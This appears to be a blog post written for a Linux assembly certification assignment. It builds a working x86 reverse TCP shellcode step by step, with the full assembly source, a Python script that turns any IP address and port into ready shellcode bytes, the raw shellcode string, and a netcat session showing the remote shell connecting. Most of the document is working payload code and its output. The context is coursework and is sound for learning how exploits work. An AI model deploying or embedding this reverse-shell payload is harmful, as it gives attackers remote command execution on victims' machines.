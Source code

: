 # Assignment 2 #

As part of the second exercise, it is requested to realize a shellcode allowing to obtain a distant shell.

The idea here is to create a socket at first the to make a connection giving an IP address and a port ID. The standard outputs stdin, stdout and stderr are redirected in order to be used once the connection is made by a distant shell. 

## Creation of a socket ##
The main reference in bibliography is the documentation of the system calls [http://man7.org/linux/man-pages/man2/socketcall.2.html](http://man7.org/linux/man-pages/man2/socketcall.2.html). The socketcall is used to define the actions on the socketsaccording to the call field. The value “1” indicates that we are interested in a socket creation. Here we have to point to a domain, a type and a protocol. protocole is set to IPPROTO_IP = 0,
the type is set to 1 (SOCK_STREAM) and the domain is set to 2 (AF_INET).

```c
	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack   args protocol 0
	inc ebx				; ebx = 1 = SYS_SOCKET = socket()
	push ebx			; push 1 onto the stack	  args SOCK_STREAM 1
	push byte 0x2			; push 2 onto the stack args AF_INET
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))
```

## Creation of the connection ##

We create in the same way the connection indicating the IP address and the logic port ID. We used the sockaddr structure in order to know about the various necessary elements. 

```c
	push 0x0101017f			; @Ip 127.1.1.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; we put the value 2 for AF_INET
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; SYS_CONNECT = connect()
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

At this stage, we redirect the 3 outputs to the socktfd via the system call système dup2.

```c
	xor ecx, ecx				; set ecx to 0
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _

```

## Shell execution ##
We are going to use execve, int execve(const char *filename, char *const argv[], char *const envp[]) in order to launch the shell.
It will be written as execve("/bin/sh", NULL, NULL).
Then, the shell(/bin/bash) is executed once the connection is made.

```c
	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)
```



## Code complet ##

```c
; SLAE - Assignment 2: Shell_reverse_Tcp shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh
; Taille : 74 bytes



global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push byte 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))

	xchg edx, eax			; we need to save the result of socket function for later usage

	
	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f			; @Ip 127.0.0.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)

```

## Exécution ##

We use as in the first exercise the file test_shellcode.c with the same options of compilation.

On the first terminal:

```c
./test_shellcode
```

On the second terminal: 

```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

```

## Improve the keying in of the Ip address and port ID ##

At this stage, we’ll use a python script.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverse TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./createShellcode.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
```

We compile again as in the previous exercise, then we test everything.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

StudentID - SLAE-3763